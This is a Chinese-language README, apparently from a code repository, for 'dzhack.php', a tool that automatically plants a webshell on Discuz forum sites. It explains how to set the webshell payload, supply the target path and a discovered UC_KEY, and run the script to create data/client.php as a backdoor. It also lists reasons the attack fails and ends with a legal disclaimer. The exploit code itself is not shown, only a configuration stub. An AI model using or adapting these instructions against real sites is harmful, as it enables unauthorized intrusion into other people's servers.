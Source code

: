 #### Discuz 全自动 GetShell

本方法比写 config_ucenter.php 更加稳定，而且不易出错

#### 用法

打开 `dzhack.php`, 找到 

```
$webshell = '<?php phpinfo(); ?>';
 
list ($status, $data) = $dz->hack (
   'http://ubuntu64/dz/',
   'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
   ...
);
```

先把第一行 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改 `hack` 函数的参数，第一个为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

#### 常见失败原因

1. 新版 Dz 防御了 XSS，所以没法 POST XML
2. 提示 Authentication Expired （DZ 拼错了），多试几次就好了，因为服务器时钟不一致导致的

#### Legal Disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.


这个工具是合法的，然而攻击他人服务器并不是合法的，作者对此不承担任何责任
